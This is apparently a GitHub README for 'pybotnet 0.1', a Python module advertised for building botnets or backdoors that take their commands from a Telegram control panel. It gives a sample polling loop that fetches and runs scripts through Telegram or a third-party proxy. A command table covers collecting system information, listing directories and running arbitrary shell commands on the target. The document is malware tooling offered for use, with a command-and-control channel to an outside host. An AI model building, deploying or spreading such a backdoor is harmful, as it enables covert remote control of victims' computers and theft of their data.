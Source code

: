 # pybotnet  0.1

A module for building botnet or back door with Python and Telegram control panel
- [x] windows
- [x] linux
- [x] mac

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)

 


### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
Send this message to your api bot in telegram, using the admin account.

COMMAND | Sample | DO THIS | Minimum version required |
--------|--------|---------|--------------------------|
do_sleep \<scconds> \<message (Optional)> | do_sleep 99999 hi, i see you! | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 |
get_info | get_info |return system info | 0.06 |
cmd \<system command> | cmd ping google.com | run system command in shell or cmd (Be careful not to give endless command)| 0.07 |
ls \<route (Optional)> | ls C:\ , ls /home |Returns a list of folders and files in that path | 0.09
